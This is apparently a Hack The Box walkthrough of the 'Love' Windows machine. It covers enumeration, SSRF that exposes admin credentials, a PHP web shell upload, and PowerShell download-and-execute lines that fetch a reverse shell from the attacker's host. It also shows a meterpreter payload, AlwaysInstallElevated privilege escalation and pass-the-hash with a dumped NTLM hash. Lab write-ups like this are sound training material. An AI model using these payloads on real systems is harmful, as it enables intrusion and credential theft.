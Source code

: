 ![](love_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.239 love.htb

**nmap scan:**
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq: 
|_    Host '10.10.15.71' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-25T08:37:23+00:00; -5h04m42s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized
```

* Information leak from https ssl certificate. 
  * **Subdomain:** `staging.love.htb` 
  * **Username:** `roy@love.htb`
* No other subdomain found: `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -H 'Host: FUZZ.love.htb' -u http://love.htb/ -ac -c -v`
* port `5000` and `443` gives "403 Forbidden"
* Can't connect to SMB without password.

* **Host: `love.htb`** asking for username:password

  ![](screenshots/love.png)

* **Subdomain `staging.love.htb`** have signup option which don't go anywhere,

  ![](screenshots/staging-love.png)

but there is a `/beta.php` which allows to fetch urls, and also allows SSRF.

![](screenshots/demo-ssrf.png)

with that we can access to port `5000` and `443` which gives "403 Forbidden", because both are on save host.

port `443` https don't response anything but port `5000` response with admin creds.

![](screenshots/vote-admin-creds.png)
<!--admin:@LoveIsInTheAir!!!!-->

* successful login to `http://love.htb/admin` with found creds. *It was just a guess. If I don't get admin login in `/admin`, than I'll run gobuster.*

# Foothold

## File upload to RCE

Found file upload option in `/admin/voters.php` and `/admin/candidates.php`

Try to upload php shell from `/voters.php`
```php
<?php echo exec("whoami"); ?>
```

![](screenshots/file-uploading.png)

and file uploaded successfully without any restriction and upload file found in the `/images` directory

![](screenshots/file-uploaded.png)

![](screenshots/file-executed.png)

Getting reverse shell with [PayloadsAllTheThings powershell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) and [nishang revshell ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Create `shell.php`, which Invoke nishang revshell ps1 script from http server.
```bash
<?php echo exec("powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/powerShellTcp.ps1')"); ?>
```

upload `shell.php`, start http server and get reverse shell.

![](screenshots/web-shell.gif)

Get msf shell with msfvenom payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

# Privesc

## abusing `AlwaysInstallElevated` policy

Running winpeas found **AlwaysInstallElevated** enable.

![](screenshots/winpeas.png)

**AlwaysInstallElevated** If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) **`*.msi`** files as **`NT AUTHORITY\SYSTEM`**.
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](screenshots/always-install.png)

* Exploit from [hacktricks.xyz](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)
* Multiple ways to exploit from [hackingarticles.in](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)


**Exploit with metasploit**
```bash
exploit/windows/local/always_install_elevated
```

![](screenshots/love-rooted.png)

**Dump NTLM hash**
```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: aab42ca009fed69fa5ee57c52cf5bcf1

#login with evil-winrm
evil-winrm -u Administrator -H aab42ca009fed69fa5ee57c52cf5bcf1 -i 10.10.10.239
```
